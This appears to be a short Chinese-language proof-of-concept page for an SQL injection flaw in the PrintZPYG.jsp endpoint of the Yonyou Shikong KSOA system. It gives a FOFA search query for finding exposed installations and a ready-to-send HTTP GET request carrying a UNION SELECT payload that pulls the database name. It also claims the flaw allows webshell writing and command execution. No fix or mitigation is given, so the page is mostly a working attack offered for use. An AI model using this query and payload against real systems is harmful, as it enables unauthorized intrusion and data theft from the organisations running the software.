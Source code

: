 # 用友时空KSOA系统接口PrintZPYG.jsp存在SQL注入漏洞

用友时空KSOA接口 `/kp//PrintZPYG.jsp` 接口存在SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

## fofa

```yaml
app="用友-时空KSOA"
```

## poc

```yaml
GET /kp/PrintZPYG.jsp?zpjhid=1%27+union+select+1,2,db_name(),4,5,6,7,8,9,10,11,12,13,14+--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```



![image-20240729163059414](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407291630480.png)